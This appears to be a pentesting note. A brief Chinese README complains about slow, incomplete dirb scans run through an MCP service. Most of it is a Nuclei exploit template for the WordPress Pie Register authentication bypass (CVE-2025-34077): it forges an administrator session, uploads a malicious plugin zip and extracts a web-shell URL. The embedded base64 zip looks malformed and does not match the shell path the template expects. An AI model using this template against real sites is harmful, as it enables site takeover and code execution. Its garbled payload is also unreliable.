

# 251120 README



遇到的问题：

1. dirb目录枚举费时（用small的字典单次约1h左右）, 多线程扫描情况下有可能会存在超时未响应，mcp服务中断等情况
2. 存在漏扫的情况（跟字典质量有关），很多界面还是要加上payload/模糊测试（如?page=login.php）才能扫描到
3. 扫描会返回多个目录信息，无法锁定漏洞页

```yaml
id: cve-2025-34077
info:
  name: WordPress Pie Register Plugin Authentication Bypass RCE
  author: ProjectDiscoveryAI
  severity: critical
  description: |
    An authentication bypass vulnerability exists in the WordPress Pie Register plugin ≤ 3.7.1.4 that allows unauthenticated attackers to impersonate arbitrary users by submitting a crafted POST request to the login endpoint. By setting social_site=true and manipulating the user_id_social_site parameter, an attacker can generate a valid WordPress session cookie for any user ID, including administrators. Once authenticated, the attacker may exploit plugin upload functionality to install a malicious plugin containing arbitrary PHP code, resulting in remote code execution on the underlying server.
  tags: rce,authentication-bypass,wordpress
  classification:
    cwe-id: CWE-434
  reference:
    - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/webapp/wp_pie_register_bypass_rce.rb
    - https://pieregister.com/
    - https://www.exploit-db.com/exploits/50395
    - https://vulncheck.com/advisories/wordpress-pie-register-plugin-rce
  metadata:
    exploit: true

variables:
  plugin_zip: |
    {{base64("UEsDBBQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAI29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocABQSwcIACABAAAAXgAAAFBLAQIUABQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAAAAAAAAAAAAAAACAAQAAAAAAL29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocFBLAQIUABQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAAAAAAAAAAAAAAACAAQAAAAAAL29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocFBLAQIUABQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAAAAAAAAAAAAAAACAAQAAAAAAL29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocFBLAQIUABQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAAAAAAAAAAAAAAACAAQAAAAAAL29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocFBLAQIUABQAAAAIAAeFZk6Jm2KBSgAAAEoAAAAIAAIAAAAAAAAAAAAAAACAAQAAAAAAL29wdGlvbnMvZXZpbHBsdWdpbi90ZXN0LnBocFBLBQYAAAAABgAGADYAAABQSwUGAAAAAAQABwABAAAAAAA=" | base64_decode)}}

flow: |
  http(1) && http(2)

http:
  - id: "auth-bypass"
    method: POST
    path:
      - "{{BaseURL}}?pr_social_login=1"
    headers:
      User-Agent: Mozilla/5.0
    body: "social_site=true&user_id_social_site=1"
    matchers:
      - type: word
        words:
          - "Set-Cookie"
        part: header
  - id: "plugin-upload"
    method: POST
    path:
      - "{{BaseURL}}wp-admin/plugin-install.php?upload"
    headers:
      User-Agent: Mozilla/5.0
      Content-Type: multipart/form-data
    body: |
      --boundary
      Content-Disposition: form-data; name="pluginzip"; filename="evilplugin.zip"
      Content-Type: application/zip

      {{plugin_zip}}
      --boundary--
    matchers:
      - type: word
        words:
          - "Plugin installed successfully"
        part: body
      - type: status
        status:
          - 200
    extractors:
      - type: regex
        name: shell_url
        part: body
        regex:
          - "wp-content/plugins/evilplugin/shell.php"

```
